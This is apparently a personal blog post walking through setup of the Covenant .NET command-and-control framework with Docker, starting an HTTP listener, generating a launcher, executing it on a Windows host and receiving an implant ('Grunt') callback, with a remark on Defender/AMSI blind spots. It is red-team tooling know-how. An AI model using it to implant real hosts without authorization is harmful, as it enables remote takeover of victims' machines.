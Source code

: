 ```yaml
---
layout: post
title: Covenant quickstart
---
```


Covenant is a .NET C2 that, like SILENTTRINITY, capitalizes on Windows Defender's blindspot for .NET applications.
it won't be until the release of .NET 4.8 that AMSI will have insight into .NET. 
Elite is the client to Covenant's Server. Below is a walkthrough on how to set everything up with docker and run a module.

Install docker (for kali docker will be in the repo so `apt install docker` will do):
```bash
curl -fsSL https://download.docker.com/linux/debian/gpg | sudo apt-key add -
echo 'deb https://download.docker.com/linux/debian stretch stable' > /etc/apt/sources.list.d/docker.list
apt-get update
apt-get install docker-ce
```

Build and start Covenant container (make sure you're in the same directory as the Dockerfile):
```
docker build -t covenant .                                                   
```

Start the container and expose ports 80, 7443, and 443. (make sure you don't have anything else listening on those ports or the docker daemon will error out):
```
docker run -it -p 7443:7443 -p 80:80 -p 443:443 --name covenant covenant --username brax --computername 0.0.0.0
```
![](https://braaaax.github.io/braaaax.github.io/images/Covenant-startup.png)


Build and start elite container and connect with Covenant container server.
Again, make sure the directory you run the command contains the Dockerfile.
```
docker build -t elite .
```

Create the Elite container client and bind the directory, indicated by the absolute path, to the /app/Data directory, connect with the Covenant server and remove when closed. We need to add a bind mount so that we can grab our generated files!
```
docker run -it --rm --name elite -v /root/cov/brax:/app/Data elite --username brax --computername 192.168.0.128
```
![](https://braaaax.github.io/braaaax.github.io/images/Covenant-startelite.png)


Start listener adn set the connection address to our kali box. It will be set to the ip of the docker container by default.
```
Listeners
http
set ConnectAddress 192.168.0.128
start
```
![](https://braaaax.github.io/braaaax.github.io/images/Covenant-startLISTENER0.png)

![](https://braaaax.github.io/braaaax.github.io/images/Covenant-startLISTENER.png)

We'll refer to our Listener by the name give, or one that we choose, when generating a Launcher.
![](https://braaaax.github.io/braaaax.github.io/images/Covenant-msbuildlauncher.png)

We execute out launcher on a windows host:
![](https://braaaax.github.io/braaaax.github.io/images/Covenant-windowsexec.png)

and get a notification that our Grunt has been activated:
`[*] Grunt: 9dae457c70 from: 192.168.0.116 has been activated!`

Now we have a Grunt and we can Interact with our Grunt and choose one of the many modules to run against our Windows host. 
![](https://braaaax.github.io/braaaax.github.io/images/Covenant-GRUNTS.png)

![](https://braaaax.github.io/braaaax.github.io/images/Covenant-interact.png)

![](https://braaaax.github.io/braaaax.github.io/images/Covenant-modules.png)
